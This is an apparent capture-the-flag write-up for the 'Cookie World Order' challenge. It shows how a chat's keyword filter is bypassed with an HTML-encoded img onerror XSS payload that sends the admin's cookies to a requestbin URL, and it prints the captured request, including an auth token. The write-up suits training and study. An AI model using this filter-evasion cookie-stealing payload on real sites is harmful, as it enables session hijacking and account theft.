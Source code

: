 # Cookie World Order

## Description

Good job! You found a further credential that looks like a VPN referred to as the cWo. The organization appears very
clandestine and mysterious and reminds you of the secret ruling class of hard shelled turtle-like creatures of Xenon.
Funny they trust their security to a contractor outside their systems, especially one with such bad habits. Upon further
snooping you find a video feed of those "Cauliflowers" which look to be the dominant lifeforms and members of the cWo.
Go forth and attain greater access to reach this creature!

[https://cwo-xss.web.ctfcompetition.com/](https://cwo-xss.web.ctfcompetition.com/)

## Solution

From the URL we can already guess that this challenge is about XSS. It turns out that the chat on the right side of the
website is vulnerable to XSS.

However, the script from the [last challenge](../government_agriculture_network../README.md) does not work here because
there is some rudimentary protection. The keywords `script` and `alert` seem to be banned. To circumvent this protection HTML
encoding can be used. Encoding

```js
document.location='http://requestbin.net/r/YOUR_BIN?c='+document.cookie;
```

as part of the `onerror` attribute of an image:

```js
<img src=x onerror="&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#108;&#111;&#99;&#97;&#116;&#105;&#111;&#110;&#61;&apos;&#104;&#116;&#116;&#112;&#58;&#47;&#47;&#114;&#101;&#113;&#117;&#101;&#115;&#116;&#98;&#105;&#110;&#46;&#110;&#101;&#116;&#47;&#114;&#47;&#89;&#79;&#85;&#82;&#95;&#66;&#73;&#78;&#63;&#99;&#61;&apos;&#43;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#59;">
```

Sending this in the chat forces the admin to perform a request:

```
GET /r/YOUR_BIN?c=flag=CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}; auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz 
```

Therefore the flag is `CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}`.
